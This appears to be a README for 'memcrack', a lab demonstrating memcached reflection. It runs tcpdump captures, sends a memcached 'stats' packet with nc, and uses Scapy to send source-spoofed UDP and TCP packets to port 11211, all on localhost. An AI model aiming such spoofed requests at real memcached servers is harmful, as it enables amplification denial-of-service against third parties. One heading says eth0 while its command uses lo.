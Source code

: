 # memcrack
Please do not use for illegal purposes

## Lab

Start `tcpdump` for TCP on lo:

```
tcpdump -i lo tcp port 6666 -vv -X
```

Start `tcpdump` for UDP on eth0:

```
tcpdump -i lo udp port 6666 -vv -X
```

Send direct UDP packet to target:

```
echo "\x00\x00\x00\x00\x00\x01\x00\x00stats\r\n" | nc -u 127.0.0.1 6666
```

Use `Scapy` to spoof packet:

```
>>> ip = IP(src="127.0.0.1", dst="127.0.0.1")
>>> data=Raw("\x00\x00\x00\x00\x00\x01\x00\x00stats\r\n")
>>>
>>> port = UDP(sport=6666, dport=11211)
>>> send(ip / port / data, count=200)
>>>
>>> port = TCP(sport=6666, dport=11211)
>>> send(ip / port / data, count=200)
```